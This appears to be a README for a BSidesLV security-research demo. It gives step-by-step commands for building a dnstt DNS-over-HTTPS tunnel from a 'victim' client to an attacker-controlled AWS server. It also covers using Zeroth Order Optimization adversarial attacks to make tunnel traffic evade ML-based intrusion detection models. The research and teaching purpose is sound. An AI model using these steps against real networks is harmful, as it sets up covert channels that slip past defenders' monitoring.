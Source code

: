 # BsidesLV - Demo

## Generic Algorithm to attack any model using Zeroth Order Optimization (ZOO) 

1. Choose the tool to generate malicious traffic
- Example: doh tunnel tools: dnstt, iodine, doh-proxy, etc
2. Generate malicious feature instances (ex: pcap)
- You can use tcpdump, wireshark, scapy (python library), or dohlyzer.
3. Choose the features to attack (best features are you can change like packet size and time)
4. Set up the limits of chosen feature for attacking (ex: positive numbers to time or 30\% for packet size)
5. Attack
6. Get the most modified features (ex: 4 most)
7. Use the gotten numbers to set up your tool

## Demo1 - DoH tunnel Basics - 101
In this demo, we will show how to create a DoH tunnel using [dnstt](https://www.bamsoftware.com/software/dnstt/) on AWS and how to use it to tunnel DNS traffic over HTTPS.

Pre-requisites:
- An AWS account
- An Elastic IP (AWS)
- DNS domain configured in Route 53 (AWS)

### DNS Setup
Go into the AWS Route53 service console and add two records:

A	tns.yourdomain.com	points to	34.239.223.23 (Elastic IP)
NS	t.yourdomain.com	is managed by	tns.yourdomain.com

tns.yourdomain.com points to the addresses of your tunnel server. It is marked as being the nameserver for everything in the t.yourdomain.com DNS zone. 
When a recursive resolver receives a query for subdomain.t.yourdomain.com, it will forward the query to the tunnel server—that is how the client tunnels data to the server.

The "tns" and "t" labels can be anything you want, but the "tns" label should not be a subdomain of the "t" label (everything under that subdomain is reserved for tunnel payloads). 
The "t" label should be short, because there is limited space available in a DNS message, and the domain name takes up part of it.

Here is an example of screen capture of the Route 53 configuration:

![Route53](../img/r53.png)

### Steps
1. Create an EC2 instance (attacker machine) on AWS and attach a elastic IP on it.
2. Make sure the security group allows both TCP and UDP traffic on port 53
3. Install dnstt-server on the EC2 instance
- Clone the dnstt repository: https://github.com/Mygod/dnstt and compile the dnstt-server
- Generate a key pair for the DoH tunnel

```shell
./dnstt-server -gen-key -privkey-file server.key -pubkey-file server.pub
```

4. Create a DoH tunnel (server side)

```shell
./dnstt-server -udp :5300 -privkey-file server.key t.mydomain.com 127.0.0.1:8000
```

5. Create a backend "application" to receive the tunneled traffic on server side

```shell
ncat -l -k -v 127.0.0.1 8000
```

6. Configure the client (victim/local machine) to use the DoH tunnel
- Copy the public key `server.pub` to the client machine

Note: 1.1.1.1 is the Cloudflare DNS resolver. You can use any DoH resolver you want.

```shell
./dnstt-client -doh https://1.1.1.1/dns-query -pubkey-file server.pub t.mydomain.com 127.0.0.1:7000
```

7. Create a backend "application" to receive the tunneled traffic on client side

```shell
ncat -v 127.0.0.1 7000
````

8. Test the DoH tunnel
9. Analyze the traffic
10. Cleanup

## Demo 2 - Attacking DoH Tunnel Detection models    
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the 
Zoo Attack (Vanilla) and Zoo Target Attack.
In the Zoo Vanilla attack, the success rate is high because the attack algorithm faces fewer constraints when generating 
adversarial examples.
Conversely, in the Zoo Target attack, the success rate is lower due to the increased constraints on the attack algorithm. 
However, it is important to note that despite the lower success rate, this attack is more realistic. 
In a real-world scenario, we just need a single successful attack instance to achieve the desired effect.

### Zoo Attack (Vanilla Attack)
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Generate adversarial examples (attack): [ZooDoH_Attack_GB.ipynb](./bsides-experiments/ZooDoH_Attack_GB.ipynb)

### Zoo Target Attack 
1. Normalize data: [normalize-data.ipynb](./bsides-experiments/normalize-data.ipynb)
2. Train a model: [build_model.ipynb](./bsides-experiments/build_model.ipynb)
3. Get DoH tunnel tools feature limits: [get-doh-tunnel-tool-limits.ipynb](./bsides-experiments/get-doh-tunnel-tool-limits.ipynb)
4. Increase/decrease the feature limits according to your needs: Edit the file `dnstt-limits-prod.csv`
5. Choose features to attack: Edit the array `features_to_attack` on notebook `Target_ZooDoH_Attack_GB.ipynb`
6. Generate adversarial examples (attack): [Target_ZooDoH_Attack_GB.ipynb](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb)

## Demo 3 - Real world Black Box Attacking (real-world scenario)   
In this demo, we will demonstrate how to attack DoH tunnel detection models using adversarial examples generated by the Target Zoo Attack in a real-world scenario.
The model is loaded by the [nids-ml.py](./feature-extractor/meter/nids-ml.py) script, simulating a real ML-based NIDS to detect DoH tunnel. The script captures the network traffic, normalize it and classifies it using the loaded model.
We use auxiliary scripts ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py) | [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py)) to produce tunnel data and send it to the NIDS.

![Demo Target Zoo Attack](../img/demo_target_zoo.png)

**Warning: This demo simulates a real-world scenario, where the training data were generated under specific network 
conditions such as latency, bandwidth, and network configuration. As a result, your outcomes may differ from those 
presented in the demo. However, you can generate your own training data and train your model accordingly. 
For detailed instructions, refer to the "Generate Your Own Training Data" section in the 
[GENERATING_TRAINING_DATA.md](./GENERATING_TRAINING_DATA.md) document.**

### Steps

1. Run steps 1-6 from [Demo 1](#demo1---doh-tunnel-basics---101).
Note: Do not create the backend application on the client side.
2. Run [Target Zoo Attack](#zoo-target-attack-) - The steps are the same as showed in [Demo 2](#demo-2---attacking-doh-tunnel-detection-models-).
3. On the local machine, start the NIDS script, specifying the interface (-n), the model path (-m), and a path to save the captured data (-c).

```shell
cd feature-extractor/meter
./nids-ml.py -n <INTERFACE> --enable-nids -m ../../bsides-experiments/ -c /tmp/captured.csv
```

4. Choose the (best) features you want to reproduce based on the two last [notebook](./bsides-experiments/Target_ZooDoH_Attack_GB.ipynb) cells 
and replace the values on the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script.

5. Run the [generate-attacked-tunnel-data](./tunel-dnstt/generate-attacked-tunnel.py) script to send the adversarial examples to the NIDS.
Tip: You can run the benign traffic script ([generate-tunnel-data](./tunel-dnstt/generate-tunnel-data.py)) to compare the results.

